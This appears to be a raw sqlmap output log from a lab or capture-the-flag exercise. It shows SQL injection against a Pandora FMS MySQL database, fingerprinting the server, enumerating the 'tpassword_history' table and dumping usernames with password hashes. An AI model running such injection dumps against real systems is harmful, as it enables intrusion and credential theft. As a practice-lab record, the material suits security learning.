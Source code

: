 ```c
[13:26:14] [WARNING] reflective value(s) found and filtering out
[13:26:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41, PHP
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[13:26:14] [INFO] fetching columns for table 'tpassword_history' in database 'pandora'
[13:26:14] [INFO] resumed: 'id_pass'
[13:26:14] [INFO] resumed: 'int(10) unsigned'
[13:26:14] [INFO] resumed: 'id_user'
[13:26:14] [INFO] resumed: 'varchar(60)'
[13:26:14] [INFO] resumed: 'password'
[13:26:14] [INFO] resumed: 'varchar(45)'
[13:26:14] [INFO] resumed: 'date_begin'
[13:26:14] [INFO] resumed: 'datetime'
[13:26:14] [INFO] resumed: 'date_end'
[13:26:14] [INFO] resumed: 'datetime'
[13:26:14] [INFO] fetching entries for table 'tpassword_history' in database 'pandora'
[13:26:14] [INFO] resumed: '2021-06-11 17:28:54'
[13:26:14] [INFO] resumed: '0000-00-00 00:00:00'
[13:26:14] [INFO] resumed: '1'
[13:26:14] [INFO] resumed: 'matt'
[13:26:14] [INFO] resumed: 'f655f807365b6dc602b31ab3d6d43acc'
[13:26:14] [INFO] resumed: '2021-06-17 00:11:54'
[13:26:14] [INFO] resumed: '0000-00-00 00:00:00'
[13:26:14] [INFO] resumed: '2'
[13:26:14] [INFO] resumed: 'daniel'
[13:26:14] [INFO] resumed: '76323c174bd49ffbbdedf678f6cc89a6'
[13:26:14] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: pandora
Table: tpassword_history
[2 entries]
+---------+---------+---------------------+----------------------------------+---------------------+
| id_pass | id_user | date_end            | password                         | date_begin          |
+---------+---------+---------------------+----------------------------------+---------------------+
| 1       | matt    | 0000-00-00 00:00:00 | f655f807365b6dc602b31ab3d6d43acc | 2021-06-11 17:28:54 |
| 2       | daniel  | 0000-00-00 00:00:00 | 76323c174bd49ffbbdedf678f6cc89a6 | 2021-06-17 00:11:54 |
+---------+---------+---------------------+----------------------------------+---------------------+

[13:26:19] [INFO] table 'pandora.tpassword_history' dumped to CSV file '/home/kali/.local/share/sqlmap/output/localhost/dump/pandora/tpassword_history.csv'
[13:26:19] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/localhost'

[*] ending @ 13:26:19 /2022-03-30/
```
